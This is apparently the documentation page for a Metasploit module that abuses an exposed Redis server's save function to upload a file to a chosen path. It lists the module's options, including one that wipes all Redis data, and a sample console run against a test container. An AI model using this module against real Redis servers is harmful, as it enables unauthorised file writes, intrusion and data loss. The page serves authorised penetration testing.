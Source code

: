 ## Description

Redis is an in-memory data structure project implementing a distributed, in-memory key-value database with optional durability. Redis supports different kinds of abstract data structures, such as strings, lists, maps, sets, sorted sets, HyperLogLogs, bitmaps, streams, and spatial indexes.

This module can be used to leverage functionality exposed by Redis to achieve somewhat arbitrary file upload to a file and directory to which the user account running the redis instance has access.  It is not totally arbitrary because the exact contents of the file cannot be completely controlled given the nature of how Redis stores its database on disk.

## Vulnerable Application

This module is tested on two different Redis server instances.
Virtual testing environments (inside docker container): 

 - Redis 5.0.6
 - Redis 4.0.14

## Verification Steps

  1. Do: `use auxiliary/scanner/redis/file_upload`
  2. Do: `set rhosts [ips]`
  3. Do: `set LocalFile [local_file_path_to_be_uploaded]`
  4. Do: `set RemoteFile [remote_file_destination]`
  5. Do: `run`

## Options

**DISABLE_RDBCOMPRESSION**

If set to `false`, redis server will disable compression before saving. Defaults to `true`.

**FLUSHALL**

If set to `true`, redis server will remove all redis data before saving. Defaults to `false`.

**LocalFile**

Path to the local file to be uploaded.

**RemoteFile**

Path, or file name, to store the file as on the Redis server.

## Scenarios

### Redis: 4.0.14 inside a docker container
  ```
msf auxiliary(scanner/redis/file_upload) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf auxiliary(scanner/redis/file_upload) > set LocalFile redis_upload_test.txt
LocalFile => redis_upload_test.txt
msf auxiliary(scanner/redis/file_upload) > set RemoteFile redis_upload_test.txt
RemoteFile => redis_upload_test.txt
msf auxiliary(scanner/redis/file_upload) > run

[+] 172.17.0.2:6379       - 172.17.0.2:6379       -- saved 23 bytes inside of redis DB at redis_upload_test.txt
[*] 172.17.0.2:6379       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
